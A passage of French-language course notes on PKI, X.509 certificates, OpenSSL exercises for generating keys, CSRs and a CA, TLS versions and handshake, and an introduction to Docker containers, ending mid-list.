C'est ce problème qui justifie l'existence des autorités de certification (CA) et de la PKI qui servent à vérifier l'identité de celui à qui appartient une clé publique.
Impossible de garantir la provenance de la clé publique. Solution : PKI
C'est ici que la PKI (Public Key Infrastructure) entre en jeu.
Elle vient de répondre à la limite du chiffrement asymétrique, c'est-à-dire : il est impossible de garantir la provenance d'une clé publique.
La PKI introduit un tiers de confiance chargé de vérifier l'identité des entités qui possèdent des clés publiques.
Grâce à ce tiers, on peut être sûr que la clé publique reçue appartient bien à la bonne personne.
En résumé, la PKI ajoute une couche d'authentification : elle garantit que l'on communique bien avec la bonne entité car un tiers de confiance se porte garant de cette identité.
Quelle PKI connaissez-vous ?
La PKI repose sur l'utilisation de certficats numériques.
Ces certificats sont très présents sur Internet et notamment dans les communications sécurisées.
Le meilleur exemple est le HTTPS : le "S" à la fin signifie Secure et il correspond à l'utilisation du protocole TLS (Transport Layer Security).
TLS s'appuie directement sur les certificats et donc sur le principe de la PKI pour garantir que le site web avec lequel on communique est bien authentique et que la connexion est sécurisée.
Les plus connus :
-
TLS : Le certificat garantit que l'on communique bien avec le bon site web (par exemple : Google, Amazon, etc.). Cela prouve que le site est authentique et que la connexion est sécurisée.
-
Code signing certificates (certificats de signature de code) : Lorsqu'on installe un logiciel ou une application, le système peut afficher un message indiquant que le programme a été signé par un éditeur vérifié. Cela garantit que le logiciel provient bien de la bonne source et qu'il n'a pas été modifié.
-
Cartes bancaires : Les cartes utilisent aussi des mécanismes de certificats et de clés pour sécuriser les transactions et garantir l'authenticité du terminal ou de la banque.
-
eID : La PKI que connaissent tous les citoyens en Belgique est celle de la carte d'identité.
Chaque carte d'identité contient un certificat numérique.
Ce certificat est signé par une autorité de certification (CA) reconnue, ce qui garantit son authenticité.
En d'autres termes, la PKI eID permet de prouver que la carte d'identité est bien officielle et qu'elle a été émise par l'État belge.
Elle repose sur une hiérarchie d'autorités de certification :
-
une autorité racine (Belgium Root CA),
-
des autorités intermédiaires (Citizen CA, Foreigner CA, Admin CA),
-
et enfin les certificats individuels présents sur les cartes d'identité.
Ce système assure que chaque carte eId est unique, authentifiée et vérifiable.
-
Dans tous ces cas, le principe est le même : la PKI permet d'établir une relation de confiance entre deux parties grâce à l'usage de certificats numériques.
Qu'est-ce qu'un certificat ?
Un certificat numérique remplit un objectif similaire à un permis de conduire ou à un passeport : c'est une pièce d'identité qui prouve votre identité et vous confère certains droits. Un certificat numérique permet à son propriétaire de chiffrer, signer et authentifier. Il est défini par la norme X.509.
La PKI utilise le certificat X.509 afin de chiffrer des données, de signer numériquement des documents et d'authentifier des communications.
Contenu d'un certificat :
Un certificat est un document numérique qui contient des informations similaires à celui d'un document d'identité. Les informations contenues dans le certificat sont décrites par la norme X.509. Nous retrouvons des informations telles que :
-
Une clé publique utilisée par le client pour chiffrer les données.
-
Une signature digitale utilisée par le client pour valider le certificat.
-
Des informations sur l'entité qui lui est associée (nom, localisation, etc.)
-
Une durée de validité
-
L'émetteur du certificat (auto signé ou autorité de confiance)
-
Des extensions afin d'ajouter de la flexibilité au certificat :
-
SAN (Subject Alternative Name)
-
CRL (Certificate Revocation List)
-
OSCP (Online Certificate Status Protocol)
-
etc.
-
-
DER/CER : certificat généralement stocké en format binaire
-
PEM/CRT/CER : certificat en format ASCII (base64) lisible avec un éditeur de textes comme Visual Studio Code
-
PFX : format de certificat utilisé dans les environnements Microsoft
Le format PFX est celui qui est le plus respecté surtout dans les systèmes Microsoft.
Pour les autres formats, ce sont surtout des conventions : parfois le fichier est en binaire, parfois non - ça dépend de la manière dont il a été exporté ou stocké.
Cycle de vie d'un certificat :
-
Requêter : créer un "Certificat Signing Request (CSR)" contenant des informations sur notre entité et notre clé publique.
C'est comme lorsqu'une personne se rend à la commune pour demander une carte d'identité ou un passeport. Un formulaire est rempli avec différentes informations : nom, pays, durée, etc.
-
attributs certificats (CN, N, signature digitale, clé publique)
Ce qui est affiché dans l'image ci-dessus est la version encodée en base 64.
Cette CSR doit ensuite être signée par une autorité de certification pour permettre la délivrance du certificat.
-
-
Signer : l'autorité de confiance signe le certificat afin de garantir sa provenance (signe avec clé privée = nouvelle signature digitale).
À la commune, le formulaire est ensuite vérifié avant de délivrer la carte d'identité.
Sur l'image, la CSR contient les informations nécessaires pour créer le certificat.
Elle est signée avec la clé privée du demandeur et contient sa clé publique.
Cette CSR est ensuite envoyée à l'autorité de certification.
L'autorité récupère les informations, les hachent et les signent à son tour, puis transmet le certificat final au demandeur.
-
Renouveler : un certificat est valide pour une période donnée.
Comment renouveler un certificat ?
Lorsqu'il arrive à expiration ou est perdu, il doit être renouvelé de la même qu'un document d'identité doit être refait à la commune.
Est-il possible de modifier la date d'un certificat ?
Il n'est pas possible de simplement modifier la date d'un certificat existant.
Comment valider que la CSR n'a pas été altérée ?
Si le contenu du certificat ou de la CSR est modifié, la signature digitale ne correspond plus et le certificat devient invalide car la valeur du hachage change.
Pour renouveler un certificat, il faut donc générer une nouvelle CSR qui sera signée à nouveau par l'autorité de certification.
-
Révoquer : les certificats sont révoqués lorsque les clés privées associées sont compromises ou ne sont plus nécessaires (CRl et OCSP).
Lorsqu'une carte d'identité est perdue ou volée, la commune l'invalide.
Exercice : générer une CSR (Certificate Signing Request) :
-
Générer une clé privée/publique :
openssl genrsa -out client.key 2048Cette commande une clé privée RSA 2048 bits et l'écrit dans `client.key` mais, comme les deux clés ont une relation mathématique, il est possible de déduire la clé publique à partir de la clé privée. Une commande OpenSSL d'
extraire la clé publique de ce fichier si nécessaire. On peut aussi utiliser genpkey :openssl genpkey -algorithm RSA -out client.key -keyopt rsa_keygen_bits:2048 -
Générer une CSR en passant les attributs en paramètres :
openssl req -out client.csr -key client.key -new -nodes -subj "/C=BE/CN=client.com"Cette commande crée une CSR (client.csr) à partir d'une clé privée existante (-key client.key).
L'option -nodes n'encrypte pas la clé privée sur le disque, c'est-à-dire pas de passphrase.
C'est l'équivalent du formulaire que l'on remplit à la commune pour demander une carte d'identité.
Ici, la demande est faite pour obtenir un certificat numérique.
Cette commande permet de préciser certains attributs du certificat, comme :
-
C=BE → le pays (ici la Belgique)
-
CN=client.com → le nom commun (nom de domaine demandé)
Il peut être décodé à l'aide d'outils en ligne (par exemple : https://www.sslshopper.com/csr-decoder.html) afin d'en visualiser le contenu de manière lisible.
-
-
Générer une clé privée + une CSR :
openssl req -newkey rsa:2048 -nodes -keyout client.key -out client.csr -subj "/C=BE/CN=client.com" -
Générer une clé privée + une CSR avec fichier de configuration :
openssl req -newkey rsa:2048 -nodes -keyout client.key -out client.csr -config csr.txtCette commande génère simultanément une nouvelle clé privée RSA 2048 (-newkey rsa:2048 -keyout client.key) non chiffrée (-nodes) et une CSR (-out client.csr.
L'option -config csr.txt lit les informations (subject, extensions, etc.) dans le fichier de configuration `csr.txt` pour automatiser la CSR (utile pour SAN, etc.).
https://help.switch.ch/pki/manage/request/csr-openssl/
Le fichier `csr.txt` :
[ req ] prompt = no encrypt_key = no distinguished_name = dn [ dn ] C = BE O = ephec.be CN = client.comCette approche basée sur un fichier de configuration est plus pratique pour les certificats complexes.
OpenSSL sera réutiliser plus tard dans le labo pour générer des certificats et sécuriser un serveur web.
Comment prouve-t-on notre identité ? Carte de bibliothèque ?
Lorsqu'une demande de certificat est effectuée, l'objectif est de prouver l'identité de l'entité qui en fait la demande.
Dans la vie réelle, pour prouver son identité, on présente une pièce officielle comme une carte d'identité ou un passeport.
Une carte de bibliothèque ou une carte de piscine n'ont pas la même valeur car elles ne sont pas signées par une autorité reconnue comme la commune par exemple.
De la même manière, en informatique, un certificat n'a de valeur que s'il est émis et signé par une autorité de confiance.
C'est pour cette raison qu'il existe des autorités de délivrance.
Autorité de délivrance :
Les documents d'identité sont acceptés car ils ont été délivrés par l'Éat (autorité de délivrance).
À l'image des documents d'identité, il est nécessaire de vérifier la validité des certificats que l'on manipule afin d'identifier nos correspondants.
La PKI permet de lier des certificats à des identités (comme des noms d'utilisateurs ou des organisations).
Le certificat que l'on génère soi-même (via une CSR) et que l'on signe avec sa propre clé est comparable à une carte de piscine. Il n'a de valeur que dans un contexte local car il n'est pas signé par une autorité reconnue.
Lorsqu'une entreprise crée ses propres certificats et les signe elle-même, on parle de certificats auto-signés.
Ce type de certificat peut être valide en interne mais pas en dehors de l'organisation.
Public Key Infrastructure (PKI) : définition :
L'objectif de PKI est de permettre une communication sécurisée entre des parties qui ne se sont jamais rencontrées auparavant.
La PKI garantit cette sécurité en s'appuyant sur des tiers de confiance appelés autorités de certification (CA; parfois aussi appelées autorités de certification) pour émettre des certificats auxquels nous faisons entièrement confiance.
Un certificat PKI permet à quelqu'un de lier numériquement son identité et d'utiliser le certificat pour exécuter certaines de ces fonctions :
-
chiffrer des données
-
signer numériquement des documents
-
authentifier
Les composants PKI :
En pratique, voici comment fonctionne une PKI :
-
Le subscriber (demandeur) - par exemple un administrateur système - génère une CSR (Certificate Signing Request).
Cette CSR contient la clé publique et les informations d'identité de l'entité qui demande le certificat.
-
La RA (Registration Authority) reçoit cette demande et valide l'identité du demandeur.
Par exemple, pour un site web, elle peut vérifier la propriété d'un nom de domaine (en demandant de créer un enregistrement DNS spécifique).
-
Une fois la validation faite, la CA (Certification Authority) signe la CSR et émet le certificat.
Ce certificat est ensuite renvoyé au demandeur.
-
Le demandeur (subscriber) publie le certificat sur le serveur web afin de sécuriser les connexions HTTPS.
-
Lorsqu'un client (relying party), comme un navigateur, se connecte au serveur, il :
-
Récupère le certificat,
-
Vérifier la signature,
-
Et vérfier qu'il n'a pas été révoqué.
-
-
La vérification de la révocation peut se faire des deux façons :
-
Via une CRL (Certificate Revocation List) qui contient la liste de tous les certificats révoqués
-
Ou via OCSP (Online Certificate Status Protocol) où le navigateur interroge directement le serveur OCSP pour savoir si le certificat est encore valide.
-
Si le certificat est expiré ou révoqué, le navigateur affiche une alerte de sécurité (triangle ou message d'avertissement), avec parfois la possibilité de continuer malgré le risque.
Comment un client connaît-il les CAs de confiance ?
Le navigateur (le client) est responsable de valider les certificats qu'il reçoit d'un site web.
Lorsqu'il se conecte, il vérifie d'abord :
-
si le certificat est expiré ou révoqué,
-
et si sa signature est valide.
Si le certificat n'est pas révoqué, le navigateur considère qu'il est fiable, mais il doit encore faire confiance à l'autorité qui l'a signé.
CAs de confiance :
-
Fourni avec l'OS
-
Mise à jour navigateur/OS
-
GPO/SSCM/Intune
Self signed (auto signé) :
Un certificat auto-signé (self signed certificate) est un certificat que l'on signe soi-même, sans passer par une autorité de certification.
On en rencontre souvent lors du développement d'applications pour avoir un simple HTTPS local.
Cependant, ce type de certificat n'est pas reconnu comme fiable car il n'a pas été signé par une autorité de confiance.
C'est comme si quelqu'un s'écrivait lui-même une attestation en se proclamant président : ce n'est pas officiel.
Modèle 2 : chain of trust (confiance hiérachique) :
Le modèle de confiance hiérarchique (chain of trust) repose sur une chaîne d'autorités :
Un certificat est signé par une autorité (CA), qui elle-même a été signée par une autre, et ainsi de suite jusqu'à la Root CA.
On fait confiance à un certificat parce qu'on fait confiance à toute la chaîne qui le relie à une autorité racine reconnue.
Cependant, si un maillon de la chaîne est compromis (par exemple une clé privée divulguée), tous les certificats situés en dessous perdent leur fiabilité.
Si le problème touche une autorité intermédiaire, l'impact reste limité.
En revanche,si c'est la Root CA qui est compromise, toute la hiérarchie devient invalide, ce qui est beaucoup plus problématique.
Dans ce modèle hiérarchique, chaque certificat est signé par l'autorité du niveau supérieur :
-
Le certificat du user est signé par le CA de niveau L2.
-
Celui du CA L2 est signé par le CA L1.
-
Le CA L1 est signé par le Root CA.
Le Root CA, lui, est un cas particulier : C'est le seul certificat auto-signé (self-signed), c'est-à-dire qu'il se signe lui-même.
Malgré cela, on lui fait confiance car sa clé publique est préenregistrée sur nos machines ou nos navigateurs - c'est la base du modèle de confiance.
Dans la majorité des cas, un certificat seul est insuffisant pour une validation réussie. En pratique, chaque serveur doit fournir une chaîne de certificats qui mène à une racine de confiance. Les chaînes de certificats sont utilisées pour des raisons de sécurité, techniques et administratives.
Protéger le CA :
-
Éteindre le CA.
-
Les CAs intermédiaires seront chargés de signer les certificats.
-
Protéger la clé privée du CA.
-
Clé compromise rendra possible la signature de faux certificats.
-
Clé compromise déclenchera la révocation de nombreux certificats.
-
Pertes financières / faillite
Le problème est qu'il n'y aurait aucun symptôme visible : les navigateurs continnueraient d'afficher un cadenas vert car ils font confiance par défaut à la clé publique de cette autorité.
C'est comparable à un cachet officiel volé à une commune : si quelqu'un l'utilise pour fabriquer de faux passeports, ils sembleront parfaitement authentiques car signés avec le vrai cachet.
Résultat : la confiance disparaît et il devient impossible de distinguer les vrais certificats des faux.
Clé corrompue :
DigiNotar : Autorité de certification (CA) néerlandaise compromise en 2011. Des certificats frauduleux émis pour Google ont été utilisés dans des attaques de type "man-in-the-middle" visant les utilisateurs Gmail iraniens (2011 was bad year for Iran, Stuxnet).
Les attaquants, en possédant la clé privée, pouvaient chiffrer et déchiffrer les communications comme un proxy positionné entre les utilisateurs et les serveurs. Ils pouvaient ainsi intercepter et lire tous les messages envoyés et reçus.
C'est pour cette raison que les CA doivent être isolés, non connectés au réseau, et leurs clés privées strictement protégées.
Limitations :
-
Le prix : CA sont contrôlés par des entités commerciales. Le prix du certificat peut varier en fonction des attributs choisis.
-
Wildcard certificate (avec une étoile, par exemple *.client.com) qui permettent de couvrir plusieurs sous-domaines mais ils sont plus coûteux.
-
On peut aussi définir des SAN (Subject Alternative Names) pour qu'un seul certificat couvre plusieurs domaines ou enregistrements DNS - cela augmente également le prix.
-
Let's Encrypt : solution gratuite mais limitée en terme de fonctionnalités (durée, périphériques, domaine).
Exercice : créer un certificat CA :
-
Générer une clé privée/publique CA :
openssl genrsa -out ca.key 2048Cette commande génère une clé RSA de 2048 bits et l'écrit dans `ca.key`.
-
Générer un certificat CA :
openssl req -x509 -new -nodes -key ca.key -sha256 -days 1825 -out ca.cert -subj "/C=BE/CN=ca.com"Cette commande crée un certificat auto-signé (-x509) et une clé privée (si `ca.key` indique d'utiliser/écrire cette clé).
L'option -new -nodes crée un nouvel objet sans chiffrage de la clé (pas passphrase).
TLS : définition :
Le chiffrage asymétrique est une solution idéale pour identifier un acteur sur le réseau.
Toutefois, le chiffrage asymétrique est lent à l'exécution en raison de la charge de calcul élevée.
TLS utilise à la fois un chiffrement asymétrique et symétrique pour protéger la confidentialité et l'intégrité des données en transit. Le chiffrement asymétrique est utilisé pour établir une session sécurisée entre une client et un serveur, et le chiffrement symétrique est utilisé pour échanger des données au sein de la session sécurisée.
En plus de chiffrer les données transmises entre un serveur et votre navigateur, le protocole TLS (PKI) authentifie également le serveur auquel vous vous connectez et protège les données transmises de toute altération.
En d'autres termes, le rôle de TLS est de partager une clé symétrique en utilisant une clé asymétrique.
Versions :
-
Secure Socket Layer / Transport Layer Security.
-
SSL 1.0, 2.0, 3.0 étaient propriétaire de Netscape.
-
IETF est en charge du protocole TLS.
-
TLS 1.0 (3.1) basé sur SSL 3.0.
-
TLS 1.0 et 1.1 sont obsolètes depuis 2021 (plus supporté par les principaux acteurs du web).
-
TLS 1.3 réduit le nombre de message durant la communication.
Aujourd'hui, on parle de TLS alors qu'il y a quelques années on parlait de SSL.
TLS est en fait la suite logique de SSL.
Le protocole SSL n'existe plus. Il a été remplacé et standardisé par l'IETF sous le nom de TLS.
TLS support :
En 2012, on observait encore une forte utilisation de SSL et très peu de TLS.
Mais à partir de 2014, après la découverte d'une faille de sécurité sur SSL v3 (attaque POODLE), il y a eu une migration massive vers TLS.
En général, les migrations ne se font qu'après la découverte d'une faille, rarement avant.
TLS support aujourd'hui :
Aujourd'hui, même si TLS 1.3 existe, beaucoup d'utilisateurs restent encore sur TLS 1.2.
TLS handshake (1.2) :

-
Client hello : max TLS (Downgrade attack), cipher suites, chiffre aléatoire
-
Server hello : TLS version, cipher suite, chiffre aléatoire.
-
Certificate : clé pub, signature, auth (PKI).
-
Server hello done : fin étape.
-
Client Key exchange : clé "pre-master" envoyé au serveur, protocole (RSA, ECDHE). Le client et le serveur calculent la clé "master" sur base des chiffres aléatoires + clé "pre-master".
-
Change cipher spec : prêt à faire du chiffrement symétrique (spécifié dans le "cipher suite").
Cipher suite (suite de chiffrement) :
Le "chipher suite" est un ensemble d'algorithmes utilisé lors d'une communication TLS. Il contient les informations suivantes :
-
Protocole : TLS1.2, TLS1.3, etc.
-
Algorithmes d'échange de clé (key exchange) : L'algorithme d'échange de clé est utilisé pour échanger une clé entre deux tiers (ex : ECDHE, RSA (valeur par défaut)).
-
Authentification : (ex: RSA (valeur par défaut), ECDSA).
-
Algorithmes de chiffrement des données (bulk encryption algorithm) : Ces algorithmes sont utilisés pour chiffrer les données (applicatives) envoyées.
-
Message Authentication Code (MAC) : Les fonctions de hachage utilisées (ex : SHA, MD5).
-
Exemple : DHE_RSA_AES256_SHA256.
TCP/IP :
À quel niveau de la pile TCP/IP se déroule le TLS handshake ?
Le TLS handshake, ça se passe au niveau transport.
Le TCP va faire quoi ? Il va commencer à faire son TCP handshake, ils vont commencer à discuter, se synchroniser, et après TLS arrive.
Donc il faut d'abord qu'il y ait cette liaison faite au niveau TCP, et ensuite TLS vient sécuriser la communication.
Reverse proxy : TLS offloading :
-
Migration vers HTTPS.
-
Coût du certificat (exposé qu'un seul point d'accès).
HTTPS :
Sur ce schéma, on voit l'évolution des versions du protocole HTTP.
-
En HTTP/1.1, le TLS est optionnel : la communication peut se faire en HTTP (non sécurisé) ou en HTTPS (sécurisé).
-
En HTTP/2, le TLS devient obligatoire. Toutes les communications passent par une connexion sécurisée.
-
En HTTP/3, le protocole change de base : il n'utilise plus TCP, mais QUIC qui repose sur UDP avec le TLS intégré nativement.
Ce qu'il faut retenir est que HTTP est le protocole de communication entre le client et le serveur tandis que HTML est un langage de description du contenu d'une page web, c'est-à-dire HTTP transporte les données et HTML décrit la structure de ces données.
Navigateur : Expiration de certificat :
Depuis le 1er septembre 2020, la date d'expiration maximale des certificats TLS passera de 2 ans à 13 mois.
-
Découverte de failles dans les algorithmes de chiffrement (migration rapide).
-
Validation des informations du certificat.
-
Révoquer plus rapidement un certificat.
Exercice : Signer une CSR avec une clé CA :
-
Signer une CSR :
openssl x509 -req -in client.csr -CA CA.cer -CAkey ca.key -CAcreateserial -out client.crtCette commande prend une CSR, `client.csr`, et la signe avec la clé CA (-CAkey ca.key) pour produire le certificat client, `client.crt`.
Grâce à l'option -CAcreateserial, si aucun fichier `CA.srl` (fichier de numéro de série) n'existe, OpenSSL le crée et y stocke le prochain numéro de série.
-
Créer un PFX :
openssl pkcs12 -export -out client.pfx -inkey client.key -in client.cer -certfile CA.cerCette commande crée un fichier PFCS#12, `client.pfx`, contenant la clé privée (-inkey client.key) et le certificat du client (-in client.cer). Elle ajoute en plus le CA (-certfile CA.cer) ou la chaîne intermédiaire dans le PFCS#12.
À l'exécution, OpenSSL te demandera un mot de passe pour protéger le .pfx.
Récapitulatif : exemple de questions d'examen :
-
Quels sont les deux types de chiffrement utilisés durant le TLS handshake ?
Asymétrique pour échanger la clé secrète + symétrique pour ciffrer la session.
-
Quelle est la différence entre cryptographie symétrique et asymétrique ?
Symétrique : même clé pour chiffrer/déchiffrer.
Asymétrique : clé publique / clé privée distinctes.
-
Qu'offre PKI ?
Une infrastructure de confiance : gestion, délivrance et révocation des certificats numériques.
-
Comment vérifier la validité d'un certificat ?
En vérifiant :
-
sa date de validité,
-
la chaîne de certification,
-
et les listes de révocation (CRL ou OCSP).
-
-
Qu'est-ce que la "downgrade attack" ?
Une attaque où l'adversaire force deux parties à utiliser une version ou un algorithme plus faible pour exploiter une faille connue.
Docker :
Pour cette partie du cours, vous devez installer Docker Desktop car, sur Windows et Mac OS, Docker ne peut pas tourner nativement contrairement à Linux.
Docker Desktop fournit :
-
une VM Linux où s'exécutent les conteneurs,
-
le daemon Docker (dockerd),
-
l'interface graphique (facultative).
Sur Windows et Mac OS, les commandes docker du terminal ne fonctionnent pas si Docker Desktop n'est pas lancé.
La commande docker dans le terminal est juste un client qui communique avec le daemon Docker.
→ Si Docker Desktop n'est pas lancé → le daemon n'est pas lancé → le client ne peut joindre aucun serveur → les commandes échouent.
Sur Linux, Docker fonctionne nativement, c'est-à-dire pas besoin de Docker Desktop, il suffit que le service Docker tourne :
sudo systemctl start dockerIntroduction :
Les containers sont des paquets logiciels légers et autonomes qui incluent tout ce dont vous avez besoin pour exécuter une application :
-
le code
-
le runtime
-
les outils système
-
etc.
Ils fournissent un environnement cohérent sur différents systèmes, garantissant que l'application se comporte de la même manière, quel que soit l'endroit où elle est déployée.
Sans Docker : Web :

-
Documentation incomplète ou incohérente
-
Écarts environnementaux
-
Gestion des dépendances
-
Lacunes de communication entre les développeurs et les opérateurs
Docker : Web :

-
Documentation cohérente et reproductible
-
Élimine les divergences environnementales
-
Gestion simplifiée des dépendances
-
Collaboration améliorée entre les développeurs et les opérations
Quels sont les avantages d'utiliser des conteneurs ?
Avantages spécifiques au rôle de la conteneurisation :
Développeur :
-
Cohérence entre les environnements : garantit que l'application fonctionne de la même manière à toutes les étapes (développement, tests, production).
-
Gestion facile des dépendances : regroupe les dépendances dans des conteneurs, évitant ainsi les conflits de versions.
-
Architecture de microservices : facilite la conception modulaire en permettant à chaque service de s'exécuter dans son propre conteneur.
Ingénieurs de sécurité :
-
Environnements de test isolés : exécutez en toute sécurité des tests et des applications vulnérables sans affecter le système hôte.
-
Reproductibilité des tests : partagez et reproduisez facilement des configurations de tests exactes à l'aide d'images de conteneurs.
Avantages des conteneurs :
-
Cohérence de l'environnement :
Cela fonctionne sur ma machine
signifie souvent des dépendances manquantes. -
Type de package : les formats varient : par exemple, Java utilise des JAR, .NET utilise des EXE.
-
Gestion des dépendances : des versions de dépendances conflictuelles peuvent entraîner des problèmes entre les applications.
-
Efficacité des ressources : les machines virtuelles sont lourdes puisque chacune inclut un système d'exploitation complet.
-
Évolutivité et déploiement : l'ajout d'un conteneur est plus rapide que le provisionnement d'une nouvelle machine.
-
Isolation et sécurité : les applications sur l'hôte peuvent interférer les unes avec les autres; les conteneurs isolent les processus, réduisant ainsi les risques.
-
Portabilité : les applications liées à des environnements spécifiques sont difficiles à déplacer; les conteneurs standardisent l'emballage, facilitant ainsi les transferts entre les systèmes.
-
Modernisation héritée : les conteneurs permettent aux applications héritées de s'exécuter sur une infrastructure moderne sans modifications majeures du code.
-
Productivité du développement : les conteneurs rationalisent la configuration de l'environnement de développement, reflétant fidèlement les paramètres de production.
Comment ça marche : Linux :
Les conteneurs sous Linux utilisent des fonctionnalités clés telles que les espaces de noms, les groupes de contrôle et les systèmes de fichiers union pour l'isolation et le contrôle des ressources :
-
Les espaces de noms assurent l'isolation en séparant les processus, les interfaces réseau et les systèmes de fichiers, de sorte que chaque conteneur semble avoir son propre environnement.
-
Les Cgroups (groupes de contrôle) gèrent et limitent l'utilisation des ressources (CPU, mémoire, etc.) des conteneurs pour éviter que l'un d'entre eux ne consomme toutes les ressources. Ces fonctionnalités permettent aux conteneurs de fonctionner de manière sécurisée et efficace sans interférer les uns avec les autres.
-
Les systèmes de fichiers union (par exemple, OverlayFS) permettent aux conteneurs de partager des fichiers et des couches communs tout en conservant leurs propres modifications séparément. Cela rend les conteneurs légers et efficaces en réutilisant les couches entre les conteneurs, réduisant ainsi l'utilisation de l'espace disque.
Comment ça marche : Windows :
Sous Windows, les conteneurs sont gérés via des conteneurs Windows Server ou des conteneurs Hyper-V :
-
Les conteneurs Windows Server utilisent des techniques d'isolation similaires à celles de Linux, en séparant les processus, les fichiers et les entrées de registre.
-
Les conteneurs Hyper-V offrent une isolation supplémentaire en exécutant chaque conteneur dans une machine virtuelle légère, améliorant ainsi la sécurité. Les deux systèmes garantissent l'isolation des processus et une utilisation efficace des ressources, mais Windows exploite également sa virtualisation Hyper-V pour une sécurité plus stricte si nécessaire.
VM vs Container :
Les conteneurs remplaceront-ils les machines virtuelles ?
VM et conteneur :
Non, ils répondent à des objectifs différents et peuvent coexister, car chacun a ses propres atouts et cas d'utilisation.
Moteur (Engine) VS CLI :
Moteur (Engine) :
-
Composant principal du moteur de conteneur : le moteur de conteneur est le moteur d'exécution principal chargé de gérer le cycle de vie des conteneurs. Il gère des tâches telles que la création, le démarrage, l'arrêt et la suppression de conteneurs.
-
Gère les conteneurs et les images : le moteur extrait les images de conteneurs, les exécute en tant que conteneurs et gère leur état. Il gère également des tâches de bas niveau telles que la mise en réseau, le stockage et l'allocation de ressources pour les conteneurs.
-
Ex : docker, conteneur
CLI :
-
Outil d'interaction utilisateur : la CLI est un outil qui permet aux utilisateurs d'interagir avec le moteur de conteneur via des commandes en ligne de commandes. Il envoie des commandes au moteur qui les exécute ensuite.
-
